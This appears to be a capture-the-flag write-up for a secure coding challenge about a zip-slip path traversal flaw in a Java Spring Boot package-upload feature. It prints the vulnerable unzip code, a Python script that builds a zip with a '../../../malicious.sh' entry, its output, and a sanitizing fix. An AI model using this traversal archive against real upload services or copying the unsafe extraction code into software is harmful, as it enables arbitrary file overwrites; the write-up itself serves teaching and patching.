

 <font size='10'>DarkWire</font>

14<sup>th</sup> April 2025

Prepared By: `Pyp`

Challenge Author(s): `Pyp`

Difficulty: <font color='green'>Easy</font>

<br><br>
<br><br>
<br><br>


# Synopsis
The challenge above is a secure coding challenge that focuses on solving a zip slip vulnerability existing within a Java Spring boot application within a pseudo-enterprise environment. By careful enumerating the provided source code, they can be able to identify and patch the vulnerability.

## Skills Required
- Java Source Code Analysis.
- Configuration Enumeration skills.

## Skills Learned
- Identifying Zip-Slip vulnerability.
- Developing secure code.
- Understanding Java web servers.

# Enumeration
The user is provided with a bunch of files to look into:
```bash
bash -c 'ls -la'

total 16
drwxr-xr-x 4 pyp pyp  160 Apr 27 19:24 .
drwxr-xr-x 3 pyp pyp   80 Apr 27 19:32 ..
-rwxr-xr-x 1 pyp pyp   97 Apr 27 19:24 build_docker.sh
drwxr-xr-x 3 pyp pyp   60 Apr 27 19:24 challenge
drwxr-xr-x 2 pyp pyp  120 Apr 27 19:24 config
-rw-r--r-- 1 pyp pyp 2214 Apr 27 19:24 Dockerfile
-rw-r--r-- 1 pyp pyp  309 Apr 27 19:24 entrypoint.sh
-rw-r--r-- 1 pyp pyp   27 Apr 27 19:24 flag.txt
```
We are provided with what appears to be a capture the flag structure that we can begin analysis with the Dockerfile:
```dockerfile
# 1) Frontend builder
#FROM node:alpine AS frontend-builder
#
#WORKDIR /editor
#
#COPY editor/frontend/package*.json ./
#RUN npm install
#COPY editor/frontend/ ./
#RUN npm run build

# 2) Final runtime
FROM python:3.10-alpine
WORKDIR /app

# Create non-root users
RUN addgroup -S challenger && adduser -S challenger -G challenger \
    && addgroup -S editor \
    && adduser -S editor -G editor -s /bin/bash && addgroup editor challenger
```

- We notice a commented out section indicating a difference between the local image and the remote image.
- Two users are created, an `editor` and `challenger`. The users work concurrently to ensure that both the editor and challenger application work in union.
```conf
[program:app]
command=java -jar app.jar  -Djava.security.manager -Djava.security.policy==/opt/no-exec.policy
user=challenger
directory=/app/java
autostart=true
autorestart=true
stdout_logfile=/dev/stdout
stderr_logfile=/dev/stderr
stdout_logfile_maxbytes=0
stderr_logfile_maxbytes=0


;[program:editor]
;command=python3 app.py
;user=editor
;directory=/app/backend
;autostart=true
;autorestart=true
;stdout_logfile=/dev/stdout
;stderr_logfile=/dev/stderr
;stdout_logfile_maxbytes=0
;stderr_logfile_maxbytes=0%   
```
- The above code from supervisord.conf confirms that another application may be running that the user has no access to. We also notice a `no-exec.policy` implemented within the java application disallowing forms of **code execution**.

## Identifying the vulnerability
Enumerating the Java Source Code allows us to identify the following code snippet in `PackageController.java`:
```java
    @PostMapping("/upload")
    public String upload(@AuthenticationPrincipal CustomUserDetails userDetails,
                         @RequestParam String name,
                         @RequestParam String version,
                         @RequestParam String type,
                         @RequestParam String description,
                         @RequestParam MultipartFile file) throws IOException {
                        
        packageService.savePackage(name, version, type, description, file, userDetails.getUser());
        return "redirect:/manager/packages";
    }
```
- It appears to be a manager administrative point from the SecurityConfig.java which maps the routes:
```java
.requestMatchers("/manager/packages", "/manager/upload-package", "/manager/upload-package/**").hasRole("MANAGER")
```

Observing further reveals critical details to the functionality of `savePackage`:
```java
    @Override
    public void savePackage(String name, String version, String type, String description, MultipartFile file, User uploader) {
        try {
            if (!file.getOriginalFilename().endsWith(".zip")) {
                throw new IllegalArgumentException("Only ZIP files are allowed.");
            }

            try (ZipInputStream zis = new ZipInputStream(file.getInputStream())) {
                boolean valid = PackageValidator.validateStructure(zis, name);
                if (!valid) {
                    throw new IllegalArgumentException("Invalid ZIP structure. Required: " + name + "/MANIFEST.xml, README.md, and RESOURCES/");
                }
            }

            String filename = System.currentTimeMillis() + "_" + file.getOriginalFilename();
            Path tempZipPath = Paths.get(PACKAGE_DIR + filename);
            Files.write(tempZipPath, file.getBytes());
        
            ZipUtils.unzip(tempZipPath.toFile(), new File(PACKAGE_DIR));
        
        [SNIPPED]
```
- A check is initiated to ensure the filename ends with `.zip` and has the proper ZIP structure bearing the **name** provided, then it is saved and unzipped.
- The following logic unzips the Zip files:
```java
public static void unzip(File zipFile, File outputDir) throws IOException {
    String outputPath = RandomPrefix();

    try (ZipInputStream zis = new ZipInputStream(new FileInputStream(zipFile))) {
        ZipEntry entry;

        while ((entry = zis.getNextEntry()) != null) {
            File outFile = new File(outputDir, outputPath + "/" + entry.getName());
            
            if (entry.isDirectory()) {
                outFile.mkdirs();
            } else {
                outFile.getParentFile().mkdirs();
                try (FileOutputStream fos = new FileOutputStream(outFile)) {
                    byte[] buffer = new byte[1024];
                    int len;
                    while ((len = zis.read(buffer)) > 0) {
                        fos.write(buffer, 0, len);
                    }
                }
            }
        }
    }
}
```
- The code simply gets each entry and writes it out to its proper place.  The only problem lies with how it creates the **File** object.
- Using `entry.getName()` is not a proper method of unzipping files, since if then entry's name has traversal characters: `..` then it intends to follow those characters. Not only does this apply for traversal characters but also for symbolic links. 
This will create the file and in turn such a file `../../../mal.sh`, can be written outside the package name directory and possible overwrite sensitive information such as login information or if possible at enterprise level, database information.

This ability is what is commonly referred to as a zip-slip. Its impact depends on the level of permissions, and hence to maintain the integrity of the challenge, I imposed restrictions on some files allowing the application to work within a limited close environment.

To exploit this vulnerability, we can use the following code:
```python
#!/usr/bin/env python3
import os
import zipfile

# Create a directory for our temporary files
os.makedirs("pkg_content", exist_ok=True)

# Create legitimate content
with open("pkg_content/example.txt", "w") as f:
    f.write("This is a legitimate example file")

with open("pkg_content/README.md", "w") as f:
    f.write("# PKG Project\nThis is a legitimate README file.")

with open("pkg_content/MANIFEST.xml", "w") as f:
    f.write('''<?xml version="1.0" encoding="UTF-8"?>
<manifest>
  <files>
    <file path="RESOURCES/example.txt" type="resource" />
  </files>
  <metadata>
    <version>1.0.0</version>
    <author>Example</author>
  </metadata>
</manifest>''')

# Create the malicious payload
with open("pkg_content/malicious.sh", "w") as f:
    f.write('''#!/bin/bash
echo "System compromised via zip slip"
echo "This file was written outside the intended directory"
''')
os.chmod("pkg_content/malicious.sh", 0o755)

# Create a zip file with the malicious path traversal
with zipfile.ZipFile("malicious_pkg.zip", "w") as zf:
    # Add legitimate files with normal paths
    zf.write("pkg_content/example.txt", "PKG/RESOURCES/example.txt")
    zf.write("pkg_content/README.md", "PKG/README.md")
    zf.write("pkg_content/MANIFEST.xml", "PKG/MANIFEST.xml")
    # This is where the zip slip happens - the path inside the zip includes "../.."
    zf.write("pkg_content/malicious.sh", "PKG/RESOURCES/../../../malicious.sh")

print("Created malicious_pkg.zip with zip slip vulnerability")
print("Contents of the zip file:")
with zipfile.ZipFile("malicious_pkg.zip", "r") as zf:
    for info in zf.infolist():
        print(f"  {info.filename}")

print("\nWhen extracted without proper path validation,")
print("malicious.sh will be written outside the intended extraction directory")

# Clean up temporary files
import shutil
shutil.rmtree("pkg_content")
```

We can run and upload the file using the manager interface:
```bash
$ python3 exploit.py

Created malicious_pkg.zip with zip slip vulnerability
Contents of the zip file:
  PKG/RESOURCES/example.txt
  PKG/README.md
  PKG/MANIFEST.xml
  ../malicious.sh

When extracted without proper path validation,
malicious.sh will be written outside the intended extraction directory
```
We can proceed to upload it:




We notice the package is uploaded and kept active, let us check the directory:
```bash
/app/java/src/main/resources/packages # ls -la
total 8
drwxrwx---    1 editor   challenger       106 Apr 27 17:16 .
drwxr-xr-x    1 editor   challenger        16 Apr 26 16:36 ..
-rw-r--r--    1 challenger challenger       880 Apr 27 17:16 1745774183392_malicious_pkg.zip
drwxr-xr-x    1 challenger challenger         6 Apr 27 17:16 ghceqqtysl
-rw-r--r--    1 challenger challenger       111 Apr 27 17:16 malicious.sh
```
Instead of existing within its directory, it is found above the directory it is needed to be in. This confirms the existence of the zip-slip! This can be applied to symbolic links, but in this case it is limited to only traversal characters.

# Solution
The easiest solution is to use the basename of the file, that way characters such as `../` are never resolved.
```java
    public static String sanitizeEntryName(String entryName) {
        if (entryName == null) {
            return "unknown";
        }

        String normalized = entryName.replace("\\", "/");
        
        while (normalized.contains("../") || normalized.contains("/..") || normalized.startsWith("../") || normalized.endsWith("/..") || normalized.equals("..")) {
            normalized = normalized.replace("../", "/");
            normalized = normalized.replace("/..", "/");

            if (normalized.equals("..")) {
                normalized = "";
            }
            
            if (normalized.startsWith("../")) {
                normalized = normalized.substring(3);
            }
            
            if (normalized.endsWith("/..")) {
                normalized = normalized.substring(0, normalized.length() - 3);
            }
        }
        
        normalized = normalized.replaceAll("^/+", "");
        normalized = normalized.replaceAll("[^a-zA-Z0-9._\\-/]", "_");
        
        return normalized.trim().isEmpty() ? "unknown" : normalized;
    }
```
- Converts Windows-style backslashes to forward slashes
- Completely removes parent directory references (..) to prevent path traversal
- Strips leading slashes to prevent absolute paths like /etc/passwd
- Replaces unsafe characters while preserving subfolder structure
- Ensures valid filenames, falling back to "unknown" if empty

**Provided we only modify one file, the challenge's difficulty makes sense!**

### Connecting to the server
We are provided with a UI (which has the right instructions) to use it, it allows us to make the right modifications with functionalities such as:
- Restarting the server
- Saving file changes
- Verifying the solution

We can open and save our file:


Since this is a Java Server, we can restart the server:


### Getting the flag
To simply get the flag, we verify the solution:

